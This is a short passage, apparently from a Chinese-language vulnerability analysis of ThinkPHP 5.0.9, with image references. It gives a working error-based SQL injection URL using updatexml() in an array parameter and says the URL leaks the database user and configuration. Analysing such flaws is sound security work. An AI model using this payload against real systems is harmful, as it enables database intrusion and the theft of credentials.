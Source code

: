 就是以数组的形式接受参数。

最后，可以开始真正的攻击了，访问如下url

```
http://localhost/tp5.0.9/public/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1
```

即可得到sql语句的报错



![](ThinkPHP-漏洞分析集合\2.png)

在下面还能报错出数据库的配置信息

![](ThinkPHP-漏洞分析集合\3.png)

